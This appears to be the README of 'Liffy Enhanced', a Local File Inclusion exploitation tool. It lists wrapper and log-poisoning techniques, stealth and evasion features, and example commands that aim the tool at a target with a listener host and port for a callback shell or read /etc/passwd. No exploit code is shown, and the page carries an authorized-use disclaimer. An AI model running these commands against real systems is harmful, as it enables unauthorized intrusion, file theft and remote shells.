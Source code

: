 # 🚀 Welcome to Liffy Enhanced

**Liffy Enhanced** is the ultimate Local File Inclusion (LFI) exploitation tool, completely rewritten and modernized with Python 3, featuring advanced techniques, automated detection, and comprehensive documentation.

## ✨ Key Features

<div class="feature-grid">
  <div class="feature-card">
    <h3>🎯 Advanced Techniques</h3>
    <p>10+ exploitation techniques including zip://, phar://, compress.zlib://, and automatic detection</p>
  </div>
  <div class="feature-card">
    <h3>🔧 Modern Architecture</h3>
    <p>Python 3 compatible with type hints, dataclasses, and object-oriented design</p>
  </div>
  <div class="feature-card">
    <h3>🎨 Beautiful UI</h3>
    <p>Enhanced terminal interface with progress bars, colored output, and real-time status updates</p>
  </div>
  <div class="feature-card">
    <h3>🤖 Automation</h3>
    <p>Automatic technique detection, smart payload generation, and multi-threading support</p>
  </div>
  <div class="feature-card">
    <h3>📊 Comprehensive Logging</h3>
    <p>Detailed logging system with file output, session tracking, and error reporting</p>
  </div>
  <div class="feature-card">
    <h3>⚙️ Configuration</h3>
    <p>JSON-based configuration system with persistent settings and environment support</p>
  </div>
</div>

## 🚀 Quick Start

### Installation

```bash
# Clone the repository
git clone https://github.com/your-repo/liffy-enhanced.git
cd liffy-enhanced

# Run installation script
chmod +x install.sh
./install.sh

# Or install manually
pip3 install -r requirements.txt
chmod +x liffy_enhanced.py
```

### Basic Usage

```bash
# Automatic technique detection
python3 liffy_enhanced.py --url http://target/file.php?page= --auto --lhost 192.168.1.100 --lport 4444

# Specific technique
python3 liffy_enhanced.py --url http://target/file.php?page= --data --lhost 192.168.1.100 --lport 4444

# File reading
python3 liffy_enhanced.py --url http://target/file.php?page= --filter --file /etc/passwd
```

## 🎯 Exploitation Techniques

### Original Techniques (Enhanced)
- **data://** - Enhanced data wrapper technique with improved encoding
- **php://input** - Improved input stream technique with better error handling
- **expect://** - Enhanced expect wrapper technique with advanced payload generation
- **php://filter** - Advanced filter technique with better file reading capabilities
- **/proc/self/environ** - Enhanced environment variable technique
- **Log Poisoning** - Improved Apache access log and SSH auth log poisoning

### New Techniques
- **zip://** - ZIP file inclusion technique for bypassing restrictions
- **phar://** - PHAR file inclusion technique for advanced exploitation
- **compress.zlib://** - Compressed file inclusion technique
- **Auto-Detection** - Automatic technique detection and exploitation

## 🔧 Advanced Features

### Modern Architecture
- **Python 3 Compatible**: Fully modernized codebase with type hints
- **Object-Oriented Design**: Clean, maintainable code structure
- **Error Handling**: Comprehensive error management throughout
- **Session Management**: Advanced HTTP session handling

### User Experience
- **Beautiful UI**: Colored terminal output with progress indicators
- **Real-time Updates**: Live status updates and progress tracking
- **Comprehensive Help**: Detailed help system and documentation
- **Configuration**: Persistent settings and environment support

### Security & Validation
- **Input Validation**: Comprehensive validation of all inputs
- **Security Checks**: Built-in security measures and checks
- **Error Handling**: Secure error handling without information disclosure
- **Logging**: Detailed audit trails and session tracking

## 📊 What's New in v2.0.0

<div class="feature">
  <h2>🆕 New Features</h2>
  <ul>
    <li>Complete Python 3 rewrite with modern architecture</li>
    <li>4 new exploitation techniques (zip, phar, compress, auto-detection)</li>
    <li>Enhanced UI with progress bars and colored output</li>
    <li>Comprehensive logging system with file output</li>
    <li>JSON-based configuration management</li>
    <li>Multi-threading support for parallel requests</li>
    <li>Advanced payload generation and evasion techniques</li>
    <li>Proxy support for stealth operations</li>
    <li>Input validation and security improvements</li>
    <li>Professional documentation with Docsify</li>
  </ul>
</div>

## 🎯 Use Cases

- **Penetration Testing**: Professional security assessments
- **Bug Bounty**: Automated LFI vulnerability discovery
- **Red Team Exercises**: Advanced persistent threat simulation
- **Security Research**: LFI technique development and testing
- **Educational**: Learning LFI exploitation techniques

## 📚 Documentation

- **[Installation Guide](installation.md)** - Complete installation instructions
- **[User Guide](user-guide.md)** - Comprehensive usage documentation
- **[Techniques](techniques.md)** - Detailed exploitation technique guides
- **[Configuration](configuration.md)** - Configuration and customization
- **[API Reference](api-reference.md)** - Programmatic usage documentation
- **[Examples](examples.md)** - Real-world usage examples
- **[Troubleshooting](troubleshooting.md)** - Common issues and solutions

## 🤝 Contributing

We welcome contributions! Please see our [Contributing Guidelines](contributing.md) for details.

## ⚠️ Disclaimer

This tool is for educational and authorized testing purposes only. Users are responsible for complying with applicable laws and regulations.

## 📞 Support

- **Issues**: [GitHub Issues](https://github.com/your-repo/liffy-enhanced/issues)
- **Discussions**: [GitHub Discussions](https://github.com/your-repo/liffy-enhanced/discussions)
- **Documentation**: [Wiki](https://github.com/your-repo/liffy-enhanced/wiki)

---

**Made with ❤️ by the Liffy Enhanced Team**

